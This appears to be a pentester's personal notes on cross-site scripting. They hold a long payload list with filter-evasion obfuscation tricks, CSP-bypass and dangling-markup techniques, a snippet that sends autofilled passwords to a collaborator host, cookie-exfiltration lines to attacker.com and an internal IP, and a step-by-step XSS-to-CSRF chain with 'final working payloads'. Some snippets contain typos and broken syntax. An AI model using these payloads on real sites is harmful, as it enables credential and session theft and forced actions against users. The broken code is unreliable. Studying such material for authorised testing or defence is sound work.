







### My Payloads list

```
<script>alert(1)</script>

<ScRipT>alert(1)</ScRipT>

%253Cscript%253Ealert(1)%253C%252Fscript%253E

<script>eval(atob("YWxlcnQoMSk="))</script>

<script>Function.prototype.bind.call(alert, null, 1)();</script>

<script>JSON.parse('{"__proto__":{"toString":"alert(1)"}}')</script>

<script>((_)=>{[_][_]('alert(1)')('constructor')})('constructor')</script>

<script>[]['filter']['constructor']('ale' + 'rt(1)')()</script>

<script>((()=>{})['constructor']('alert(1)'))()</script>

<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>

<scr<script>ipt>alert(1)</script>

<script%00>alert(1)</script>

<script>({a:alert(1)}.a)</script>

<script>alert`1`</script>

<script>alert`${1}`</script>

<script>self[`aler` + `t`]`\u006c`</script>

&lt;script&gt;alert(1)&lt;/script&gt;

<script>
var el = document.createElement('img');
el.setAttribute('src', 'x');
el.setAttribute('onerror', 'alert(1)');
document.body.appendChild(el);
</script>


<a href="javascript:alert(1)">

"><svg/onload=alert(1)>
"><svg/onmouseover=promt(1)>
"><svg/onfocus=promt(1)>
"><svg/onload=confirm(1)>
"><svg/onmouseover=confirm(1)>
"><svg/onfocus=confirm(1)>
"><svg/onload=window.location("https://evil.com")>
"><svg/onmouseover=window.location("https://evil.com")>
"><svg/onfocus=window.location("https://evil.com")>
"><svg autofocus onfocus=window.location("https://evil.com")>

"><svg><animatetransform onbegin=alert(1)>

<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

<svg/onload=eval("ale"+"rt")(`✓${alert`✓`}`)>

<input autofocus onfocus=alert(1)>

<input type="hidden" accesskey="X" onclick="alert(1)">

<input onblur=top[/al/.source+/ert/.source]("_Y00!_") autofocus><input autofocus>
<input onblur=["_Y00!_"].find(alert) autofocus><input autofocus>
<input onblur=(((confirm)))("_Y00!_") autofocus><input autofocus>

<input type=range ongotopointrecapture=alert(1)>
<input type=range onlostpointrecapture=alert(1)>

<h1 onclick=\u0061\u006cert("_Y000!_")>Y00</h1>

<h1 onmouseover= (((confirm)))`_Y000!_`>

<p/onclick=%27new%20Function`al\ert\`\u0059\u0030\u0030\u0030\``%27>d

<p/onclick=self[`aler`%2b`t`]`\u0059\u0030\u0030\u0030`>d

<form><button formaction=javascript&colon;alert('xss_by_Y000!')>

<iframe srcdoc="<script>alert(1)</script>"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>

<style>*{background:url("javascript:alert(1)")}</style>
<style>body{background: url("http://attacker.com?exfil=" + document.cookie);}</style>

<meta http-equiv="refresh" content="0;url=javascript:alert(1)">

```

```
";window.location="https://evil.com";//996
window.location.assign("http://google.com")
window['location']['href']="http://google.com"

'-alert(1)-'
';alert(1)//

\';alert(1)//

&apos;-alert(document.domain)-&apos;

'; onerror=alert;throw 1;' 
'; {onerror=alert}throw 1;' 
'; throw onerror = alert, 1;' 
'; onerror=eval;throw'=alert\x281\x29';' 

${alert(1)}

alert(document.cookie)
alert(document['cookie'])
with(document)alert(cookie)

alert(1)
Function("alert(1)")()
(new Function('alert(1)'))()
'new Function`al\ert\`1\``'
'new Function`pro\mpt\`1\``'

alert`1`
self[`aler`%2b`t`]`1`

jav&#x09;ascript:alert(1)
jav&#x0A;ascript:alert(1)
jav&#x0D;ascript:alert(1)

java\u0073cript:al\u0065rt(1)

eval(atob("YWxlcnQoMSk="))
((_)=>{[_][_]('alert(1)')('constructor')})('constructor') 
[]['filter']['constructor']('alert(1)')()

constructor.constructor('al'+'ert(1)')()

```

### Obsucations and Tricks

Notes
```
- tags - `script, img, svg, svg animate `
- event handlers -  `onerror, onmouseover, onfocus, onblur, autofocus onfocus, onbegin `
- functions -   `prompt, confirm, window.location("https://evil.com"), print`
- if tag is hidden make use of AccessKey payload
- Unicode escapes:
    - \u0061 = 'a'
    - \u006c = 'l'
- /al/.source → 'al' and /ert/.source → 'ert' So /al/.source + /ert/.source → 'alert'
- top is the top-level window object (same as window in most contexts), top["alert"] is the same as alert
- ["_Y00!_"].find(alert) - You are creating an array with a string: ["_Y00!_"], .find(alert) will call alert("_Y00!_")
- (((confirm))) simply resolved to confirm
- new Function`al\ert\`\u0059\u0030\u0030\u0030\`` -> new Function('alert(`Y000`)')()
- self[\aler`%2b`t`]` - This uses dynamic property access on the self object (which refers to window in browsers), `aler` + `t` → alert (this avoids direct use of the word alert to bypass filters).

- if ' is ecaped then add \ in the begining of payload,  it will escape the / and payload will be successful.
- if ' is blocked then use html encoded &apos;
- if . is blocked then use []
- if ; are blocked then use {}
- if () are blocked then use `throw` in javascript (https://esdiscuss.org/topic/hacking-onerror-throw)
- if the XSS context is into a JavaScript template literal, there is no need to terminate the literal. Instead, you simply need to use the ${...}
- Below payload completely avoids inline script content
    <script>
    var el = document.createElement('img');
    el.setAttribute('src', 'x');
    el.setAttribute('onerror', 'alert(1)');
    document.body.appendChild(el);
    </script>

- `document['cookie']` is the same as `document.cookie` - In JavaScript, object['property'] and object.property are equivalent for accessing properties
- `with(document)alert(cookie)` is same as `alert(document.cookie)` - The with(document) statement temporarily changes the scope to the document object. So inside the with block (or expression), unqualified property names are assumed to be properties of document.
- Execute alert(1) by dynamically creating a function with new Function(...)
- 'new Function\al\ert\`1\`' `is osfucated version of` Function("alert(1)")()
- self[`aler`%2b`t`]`1` - self is a reference to the global object in browsers (same as window), so self["alert"] is just alert, Here, %2b is URL encoding for the plus sign (+), so its like `aler`%2b`t` → `aler` + `t` → "aler" + "t" → "alert". So the payload becomes: self["alert"]`1`, This is equivalent to: alert`1`
- "jav&#x09;ascript:alert(1)" - &#x09; is a tab character in HTML character reference, So "jav&#x09;ascript:alert(1)" becomes "jav<TAB>ascript:alert(1)". This is a known technique to bypass naive filters that look for the exact string javascript:
- "jav&#x0A;ascript:alert(1)" - &#x0A; is a line feed (newline) character. So the SRC attribute value becomes: "jav\nascript:alert(1)" (with a newline in the middle). Similar to the tab example (&#x09;), the newline is used to bypass simple filters that look for the string "javascript:" literally.
- "jav&#x0D;ascript:alert(1)" - &#x0D; is a carriage return (CR) character. So this makes the SRC attribute value "jav\r ascript:alert(1)" (with a carriage return in the middle). This can bypass simple filters that are scanning for the exact string "javascript:".
- PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg== - <script>alert(1)</script>
- The srcdoc attribute lets you directly embed HTML content inside an iframe.
- <script%00>alert(1)</script> - %00 is a URL-encoded null byte (\0 character)., Null bytes are sometimes used in attacks to bypass poorly implemented input filters.
- {a: alert(1)} creates an object literal with a property a whose value is the result of calling alert(1). So alert(1) is executed immediately when the object is created.
- <scr<!-- -->ipt>alert(1)</scr<!-- -->ipt> - Browsers ignore comments inside HTML, including inside tag names. So the browser effectively treats it as: <script>alert(1)</script>
- atob("YWxlcnQoMSk=") when base64 decoded is alert(1)
- ((_)=>{[_][_]('alert(1)')('constructor')})('constructor') - 	Triggers alert(1) via obfuscation
- []['filter']['constructor']('alert(1)')() - triggers alert(1)
- ((()=>{})['constructor']('alert(1)'))() - triggers alert(1)
- Function.prototype.bind.call(alert, null, 1) This returns a new function equivalent to: () => alert(1), then executes alert(1)
- The browser interprets src x as src="x". This works because of how browsers parse attributes.
- The presence of autofocus is enough; no equals sign required.

```
#### XSS - Dangling Markup HTML Scriptless Injection

https://book.hacktricks.wiki/en/pentesting-web/dangling-markup-html-scriptless-injection/index.html

This technique can be use to extract information from a user when an HTML injection is found. This is very useful if you don't find any way to exploit a XSS but you can inject some HTML tags.

```
@import//hackvertor.co.uk?
<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />
```
If you inject ``. This can be mitigated with a CSP regarding http-equiv ( Content-Security-Policy: default-src 'self';, or Content-Security-Policy: http-equiv 'self';)

#### CSP Bypass - With User Interaction- by Dangling Markup with with base target

https://www.youtube.com/watch?v=XKGjuDlx_1A
https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup
https://book.hacktricks.wiki/en/pentesting-web/dangling-markup-html-scriptless-injection/index.html#bypassing-csp-with-user-interaction

Content-Security-Policy: default-src 'self' script-src 'self' img-src 'self' object-src 'none' style-src 'self' base-uri 'self' form-action 'self'

Above CSP is very strict as it blocks inline scripts and scripts from img src...however note that even in strict CSP HTML injection is not restricted

What we can do is inject an anchor tag with our attacker server link followed by a `base` tag which has parameter called target. now whatever the value of this target is ssomething which we can access on our attacker server using `window.name`. So we will basically open and double quote for this target attribute but wont close it...so all the the data after this tag including CSRF ..untill there is another closing double quote would be sent to our attacker server and we can access that using window.name

```
<a href="https://attackerserver">click me</a><base target="test
```
Note that you will ask the victim to click on a link that will redirect him to payload controlled by you.
As you control the page where the victim is accessing by clicking the link, you can access that window.name and exfiltrate that data:
```
<script>
  if(window.name) {
      new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```

Mitigation
- You can protect against the base tag injection by having your own base tag before any potential injection, this will prevent the second base tag from being able to overwrite the target.
- Output Encoding

#### CSP Bypass - With User Interaction - DOM-based dangling markup without the base tag

https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup
https://book.hacktricks.wiki/en/pentesting-web/dangling-markup-html-scriptless-injection/index.html#bypassing-csp-with-user-interaction

Even from the most CSP restricted environments you can still exfiltrate data with some user interaction. In this occasion we are going to use the payload


#### CSP Bypass using `report-uri` and `script-src-elem` directive

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive of CSP. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. We can inject `script-src-elem` directive which will overwrite `script-src`, so we can basically inject the `unsafe-inline` which will inine script ie our payloads.

Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; `report-uri /csp-report?token=`

```
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27


Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'

# Angular template Context

#### XSS to steal auto-fill password

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

#### XSS to CSRF 

##### One way

Working POC - <script>alert(1)</script>

The app was fetching updated CSRF token everytime through a URL, we utilised that url to fetch latest csrf token and using  XSS sent it to attacker server in query parameter of URL which is hosting CSRF poc and the poc automatically fetch token from query parameter and executed poc successfully.

note - convert space and special characters into url encoding
     - edit host file of server to attackerserver.com and start http server on port 1234
```
<script>
fetch('https://vulnerable.com/somepage.do?Token)
    .then(response -> response.text())
        .then(data -> getcsrf(data));

function getcsrf(data){
    var token = data;
    window.location.replace('http://attackerserver.com:1234/csrfpoc.html?token=$(token)')
}
</script>
```
CSRF POC
```
<html>
<body>
<form>
...
<input type="hidden" name="formCsrfToken" id=="token" value="" />
...
</form>
</body>

<script>
const queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);
const token = urlParams.get('token');
var elem = document.getElementById("token");
elem.value = token;
history.pushState('','','/');
document.forms[0].submit();
</script>

</html>
```

##### Another way

Vulnerable URL - https://example.com/%22-alert(1)-%22

Working POC - "-alert(1)-"

Working Paload (text content-type) : `https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://example.com/approve',{method:'POST',body:'user=test&action=approve'}).then(console.log())"}))})-"`

Below is the process of payload creation

> you can append html tag using javascript, below are example payloads

```
document.body.appendChild(document.createElement('img)).src='http://192.168.1.100/exfil?data'+btoa(document.cookie);
```
```
document.body.appendChild(Object.assign(document.createElement('img'), { src: 'test.com'}));
```
```
document.body.appendChild(Object.assign(document.createElement('div'), { id: 'myId', className: 'someClass', textContent: 'Hello World'}));
```
> appending after a specific element
```
document.getElementById('dashboard').append(document.createElement('img'), { src: test.com })
```
> If in case the JS is loading before then HTML then you need to use "DomcontentLoaded"
```
document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('img'), { src: 'test.com'}))})
```
```
document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: 'alert(1)'}))})
```

> Now to chain CSRF, we will replace this alert(1) with Fetch API

> Lets create working CSRF Fetch API for POST request, we tried for both content-type JSON and text,  however with JSON body it was giving some error in vulnerable app which but might work if given some time. the text one is working fine and is used in POC.


Building for JSON content-type
```
fetch('https://example.com/approve',{method:'POST',credentials:'include',headers:{'Content-Type':'application/json'},body:'{}'}).then(console.log())
```
```
https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://example.com/approve',{method:'POST',credentials:'include',headers:{'Content-Type':'application/json'},body:'{}'}).then(console.log())"}))})-"
```
> further tried to include the body paramenters, using below payload but gave some error may be because of some extra space or (') issue, which could be resolved if given some time
```
fetch('https://example.com/approve',{method:'POST',credentials:'include',headers:{'Content-Type':'application/json'},body:'{'user':'test'}'}).then(console.log())
```
```
https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://example.com/approve',{method:'POST',credentials:'include',headers:{'Content-Type':'application/json'},body:'{'user':'test'}'}).then(console.log())"}))})-"
```


Building for normal text/form/urlencoded content-type
```
fetch('https://example.com/approve',{method:'POST',body:'user=test&action=approve'}).then(console.log())
```
```
https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://example.com/approve',{method:'POST',body:'user=test&action=approve'}).then(console.log())"}))})-"
```


Final Working Payload

`https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://example.com/approve',{method:'POST',body:'user=test&action=approve'}).then(console.log())"}))})-"`
```
https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://example.com/approve',{method:'POST',body:'user=test&action=approve'}).then(console.log())"}))})-"
```
> in my case server was replacing host was automatically appending my fetch URL to host https://example.com so chnged URL in fetch to below
```
https://example.com/"-document.EventListener('DOMContentLoaded', function() {document.body.appendChild(Object.assign(document.createElement('script'), { textContent: "fetch('https://approve',{method:'POST',body:'user=test&action=approve'}).then(console.log())"}))})-"
```


Note:
- the payloads work without semicolon also in case of JS breaking
- sometime removing unnecessory space resolves error and makes payload work

note that if in case the JS is loading before then HTML then you need to use "DomcontentLoaded"


# XSS - Impact - Cookie Counterfeiting / Cookie Tossing

https://www.youtube.com/watch?v=76aWETqbQ-o

- reqirements
    - Cookie based auth
    - web site accepts duplicate cookies with same name

```
step 1: Identify the session cookie
step 2: Verify duplicate cookie accepted
step 3: Find an endpoint with impact
step 4: Find a bug using which you will do this( eg XSS, Cookie/header reflection, sudomain takeover, self-xss)
```

step 1: Identify the session cookie



step 2: Verify duplicate cookie accepted





step 3: Find an endpoint with impact



step 4: Find a bug using which you will do this( eg XSS, Cookie/header reflection, sudomain takeover, self-xss)



### Mitigations

1. Cookie __Host Prefix



2. Duplicate Cookie Detection



